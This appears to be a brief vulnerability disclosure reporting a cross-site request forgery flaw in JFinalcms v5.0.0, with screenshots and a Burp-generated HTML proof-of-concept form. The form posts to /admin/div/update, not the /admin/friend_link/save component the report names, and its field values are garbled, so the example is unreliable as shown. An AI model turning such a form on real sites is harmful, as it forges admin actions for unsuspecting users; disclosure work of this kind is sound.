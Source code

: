 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/save

![图片](https://github.com/cui2shark/cms/assets/52313275/2a1d3e65-f9cf-44b3-92ff-422c47ace9a9)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/9a40b37f-21cd-4dae-b144-b6f62b894d93)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/div/update" method="POST">
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="name" value="娴&#139;�&#175;&#149;1" />
      <input type="hidden" name="name" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/813b01f0-d73b-4eda-b6c2-3593afb04ae2)

